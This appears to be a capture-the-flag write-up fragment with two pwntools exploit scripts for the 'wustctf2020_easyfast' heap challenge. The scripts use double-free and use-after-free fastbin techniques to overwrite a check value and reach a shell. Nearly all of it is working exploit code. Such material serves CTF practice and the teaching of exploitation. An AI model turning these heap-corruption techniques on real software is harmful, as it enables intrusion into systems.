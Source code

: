 ```
gdb.attach(p)
add(0x40)	#3
add(0x40)	#4
add(0x40)	#5
write(5,p64(0))
backdoor()

p.interactive()
#double free做法
```

```
from pwn import *

p=process('./wustctf2020_easyfast')
#p=remote("node4.buuoj.cn",29319)
context.log_level="debug"

def add(size):
	p.recvuntil('choice>')
	p.sendline('1')
	p.recvuntil('size>')
	p.sendline(str(size))
	

def delete(index):
	p.recvuntil('choice>')
	p.sendline('2')
	p.recvuntil('index>')
	p.sendline(str(index))

def edit(idx,content):
	p.sendlineafter('choice>','3')
	p.sendlineafter('index>',str(idx))
	p.send(content)

def backdoor():
	p.sendlineafter('choice>','4')

add(0x40)#0
add(0x40)#1
#gdb.attach(p)
delete(0)
#gdb.attach(p)
edit(0,p64(0x602080))
#gdb.attach(p)
add(0x40)#0
gdb.attach(p)
add(0x40)#3
edit(3,p64(0))
backdoor()
#gdb.attach(p)
p.interactive()
#UAF做法
```


